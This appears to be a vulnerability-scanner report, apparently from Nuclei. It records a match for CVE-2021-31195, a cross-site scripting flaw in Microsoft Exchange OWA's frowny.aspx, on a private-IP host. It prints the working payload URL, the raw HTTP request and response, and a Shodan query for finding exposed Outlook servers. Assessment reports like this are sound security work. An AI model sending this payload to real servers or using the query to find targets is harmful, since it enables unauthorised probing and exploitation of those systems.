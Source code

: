 ### Microsoft Exchange Server - Cross-Site Scripting (CVE-2021-31195) found on https://10.10.252.86
---
**Details**: **CVE-2021-31195**  matched at https://10.10.252.86

**Protocol**: HTTP

**Full URL**: https://10.10.252.86/owa/auth/frowny.aspx?app=people&esrc=MasterPage&et=ServerError&refurl=}}}alert(document.domain)//&te=\

**Timestamp**: Thu Apr 6 23:01:33 +0100 BST 2023

**Template Information**

| Key | Value |
|---|---|
| Name | Microsoft Exchange Server - Cross-Site Scripting |
| Authors | infosecsanyam |
| Tags | microsoft, exchange, owa, xss |
| Severity | high |
| Description | Microsoft Exchange Server, or OWA, is vulnerable to a cross-site scripting vulnerability in refurl parameter of frowny.asp. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2021-31195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-31195) |
| CVSS-Score | 8.80 |
| shodan-query | http.title:"Outlook" |

**Request**
```http
GET /owa/auth/frowny.aspx?app=people&esrc=MasterPage&et=ServerError&refurl=}}}alert(document.domain)//&te=\ HTTP/1.1
Host: 10.10.252.86
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Length: 43553
Cache-Control: no-cache, no-store
Content-Type: text/html; charset=utf-8
Date: Thu, 06 Apr 2023 22:01:32 GMT
Expires: -1
Pragma: no-cache
Request-Id: 823ab9a1-c628-40a4-9317-6232be12613e
Server: Microsoft-IIS/10.0
X-Aspnet-Version: 4.0.30319
X-Content-Type-Options: nosniff
X-Feserver: WIN-12OUO7A66M7
X-Powered-By: ASP.NET

```